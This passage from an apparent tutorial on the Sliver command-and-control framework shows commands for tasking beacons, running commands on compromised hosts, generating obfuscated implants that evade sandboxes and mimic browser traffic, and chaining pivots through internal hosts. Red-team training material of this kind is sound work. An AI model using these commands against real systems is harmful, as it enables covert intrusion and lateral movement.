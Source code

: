 ### 8.6 Beacon Management

Beacons check in with the server at configurable intervals, making them less noisy than session implants:

```bash
# Interact with beacon
sliver > use [beacon-id]

# Check beacon tasks
sliver (beacon) > tasks

# Fetch task results
sliver (beacon) > tasks fetch [task-id]

# Reconfigure beacon
sliver (beacon) > reconfig --interval 120 --jitter 30

# Execute commands
sliver (beacon) > execute whoami
sliver (beacon) > shell "net user"
```

### 8.7 Detection Evasion Features

```bash
# Traffic encryption (built-in)
# All C2 traffic encrypted independently of transport protocol

# Canary domains for sandbox detection
sliver > generate --http example.com --canary google.com,microsoft.com

# Custom obfuscation
sliver > generate --http example.com --os windows --obfuscate

# Traffic profiles
sliver > profiles new --name "chrome" --format http
sliver > profiles set-header "chrome" "User-Agent" "Mozilla/5.0 Chrome/91.0"
```

### 8.8 Multi-Hop Pivot Chains

Pivots can be arbitrarily nested, allowing traffic to route through multiple compromised hosts:

```bash
# Establish first pivot
sliver > use session-1
sliver (session-1) > pivots tcp --bind 10.10.10.100:8888

# Generate implant for second hop
sliver > generate --tcp-pivot 10.10.10.100:8888 --name "hop2"

# After second implant connects, create another pivot
sliver > use session-2
sliver (session-2) > pivots tcp --bind 172.16.1.50:9999

# Generate implant for third hop
sliver > generate --tcp-pivot 172.16.1.50:9999 --name "hop3"

# Result: Attacker → Session-1 → Session-2 → Session-3
```
